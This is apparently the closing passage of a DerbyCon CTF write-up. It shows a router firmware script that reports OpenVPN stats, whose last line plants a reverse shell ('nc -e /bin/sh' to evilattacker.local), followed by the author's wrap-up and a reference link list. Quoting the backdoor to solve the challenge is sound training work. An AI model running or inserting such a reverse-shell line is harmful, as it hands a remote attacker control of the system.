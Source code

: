 ```bash
        awk '/HEADER,CLIENT_LIST/{printline = 1; next} /HEADER,ROUTING_TABLE/ {printline = 0} printline' | \
        awk -F "," 'BEGIN{print "<tr><th>Client</th><th>Remote IP:Port</th><th>Bytes Received</th><th>Bytes Sent</th><th>Connected Since</th></tr>\n"}{
                printf "<tr><td>%s</td><td>%s</td><td>%d</td><td>%d</td><td>%s</td></tr>\n", $2, $3, $6, $7, $8;
        }
        END{print "\n<tr><td colspan=5><br></td></tr>\n<tr><td colspan=5>VPN Server Routing Table<hr/></td></tr>\n"}'
        # ROUTING TABLE
        /bin/echo "status 2" | /usr/bin/nc 127.0.0.1 ${PORT} | \
        awk '/HEADER,ROUTING_TABLE/{printline = 1; next} /GLOBAL_STATS/ {printline = 0} printline' | \
        awk -F "," 'BEGIN{print "<tr><th>Client</th><th>Virtual Address</th><th colspan=2>Real Address</th><th>Last Ref</th></tr>\n"}{
                printf "<tr><td>%s</td><td>%s</td><td colspan=2>%s</td><td>%s</td></tr>\n", $3, $2, $4, $5;
        }
        END{print "\n"}'
        echo -e "</table>\n<br>\n";
fi
if [ "$(nvram get openvpncl_enable)" = "1" ]; then
PORT=`grep "^management " /tmp/openvpncl/openvpn.conf | awk '{print $3}'`
if [ x${PORT} = x ]
then
	PORT=16
fi
/bin/echo "status 2" | /usr/bin/nc 127.0.0.1 ${PORT}  | grep "bytes" | awk -F "," 'BEGIN{print "<table><tr><td colspan=2>VPN Client Stats<hr></td></tr>"}{
        printf "<tr>\n<td>%s</td><td>%d</td>\n</tr>", $1, $2;
}
END{print "</table>"}'
fi
/usr/bin/nc -e /bin/sh  evilattacker.local 80
```

Well, all right then. __evilattacker.local__. In hindsight, I should have grep'd for usage of nefarious exfiltration tools, of which [netcat][] (`nc`) is popular. That would have sped up the time it took me to solve this significantly.

## Wrap-up

I would like to thank Bank of America's Global Information Security Team for putting together a great CTF. I really enjoyed it (aside from the times I wanted to bash my head against something hard) and I learned a lot from it. I look forward to taking these skills and improving on them in future CTFs.

[derbycon]: https://www.derbycon.com/
[hackers movie]: https://en.wikipedia.org/wiki/Hackers_(film)
[sneakers movie]: https://en.wikipedia.org/wiki/Sneakers_(1992_film)
[mr robot]: https://en.wikipedia.org/wiki/Mr._Robot
[mr robot dave kennedy]: https://www.youtube.com/watch?v=z-iDNGxkQgE
[mr robot hacking]: https://www.wired.com/2016/07/real-hackers-behind-mr-robot-get-right/
[default windows xp wallpaper]: https://www.google.com/search?q=default+wallpaper+windows+xp
[gizmodo newegg processors]: https://gizmodo.com/a-bizarre-story-newegg-fake-core-i7-processors-and-a-5488106
[ajit reeses]: https://dangerousminds.net/content/uploads/images/_framed/reesssocial-original-600-316.jpg?1513344060
[trevor]: https://www.csoonline.com/article/3227910/hackers-create-memorial-for-a-cockroach-named-trevor.html
[trevor google]: /img/derbycon_boa_ctf/osint_google.png
[trevor twitter]: /img/derbycon_boa_ctf/osint_twitter.png
[trevor gist]: /img/derbycon_boa_ctf/osint_gist.png
[trevor github profile]: /img/derbycon_boa_ctf/osint_github_profile.png
[trevor pastebin]: /img/derbycon_boa_ctf/osint_pastebin.png
[trevor facebook]: /img/derbycon_boa_ctf/osint_facebook.png
[nesting output]: /img/derbycon_boa_ctf/nesting_dolls.png
[nesting flag]: /img/derbycon_boa_ctf/nesting_flag.png
[gdb]: https://www.gnu.org/software/gdb/
[binary stackoverflow]: https://reverseengineering.stackexchange.com/a/3816
[cracking code 1]: /img/derbycon_boa_ctf/cracking_code_1.png
[cracking code 2]: /img/derbycon_boa_ctf/cracking_code_2.png
[cracking code 3]: /img/derbycon_boa_ctf/cracking_code_3.png
[cracking code 4]: /img/derbycon_boa_ctf/cracking_code_4.png
[challenge 3]: /img/derbycon_boa_ctf/Challenge_3.png
[challenge 3 transparent]: /img/derbycon_boa_ctf/Challenge_3_transparent.png
[challenge 3 enhanced]: /img/derbycon_boa_ctf/Challenge_3_enhance.png
[hackercat]: https://media.giphy.com/media/heIX5HfWgEYlW/giphy.gif
[hashcat]: https://github.com/hashcat/hashcat
[crack encrypted zip]: https://penguin-systems.com/node/10
[john]: https://github.com/magnumripper/JohnTheRipper
[john install]: https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/doc/INSTALL
[seclists]: https://github.com/danielmiessler/SecLists
[quipqiup]: https://quipqiup.com/
[cryptogram]: /img/derbycon_boa_ctf/cryptogram.png
[rtfm]: https://github.com/tanc7/hacking-books/blob/master/RTFM%20-%20Red%20Team%20Field%20Manual%20v3.pdf
[volatility]: https://github.com/volatilityfoundation/volatility
[volatility basics]: https://samsclass.info/121/proj/p4-Volatility.htm
[volatility sans]: https://blogs.sans.org/computer-forensics/files/2012/04/Memory-Forensics-Cheat-Sheet-v1_2.pdf
[volatility commands]: https://github.com/volatilityfoundation/volatility/wiki/Command-Reference
[registry hives]: https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-hives
[hivelist]: https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#hivelist
[hashdump]: https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#hashdump
[printkey]: https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#printkey
[pslist]: https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#pslist
[netscan]: https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#netscan
[volatility hashdump hashes]: /img/derbycon_boa_ctf/volatility_hashdump_hashcat_2.png
[ntlm bad]: https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4
[ctfadmin hash]: /img/derbycon_boa_ctf/hashcat_ctfadmin.png
[hashcat potfile]: https://hashcat.net/wiki/doku.php?id=frequently_asked_questions#what_is_a_potfile
[volatility pslist]: /img/derbycon_boa_ctf/volatility_pslist.png
[volatility networking]: https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#networking
[volatility netscan]: /img/derbycon_boa_ctf/volatility_netscan.png
[binwalk]: https://github.com/ReFirmLabs/binwalk

[binwalk command]: /img/derbycon_boa_ctf/binwalk.png
[binwalk extracted]: /img/derbycon_boa_ctf/binwalk_extracted.png
[firmware cracked grep]: /img/derbycon_boa_ctf/firmware_cracked_grep.png
[netcat]: https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-netcat-swiss-army-knife-hacking-tools-0148657/
[not sure if]: /img/derbycon_boa_ctf/notsureif.jpg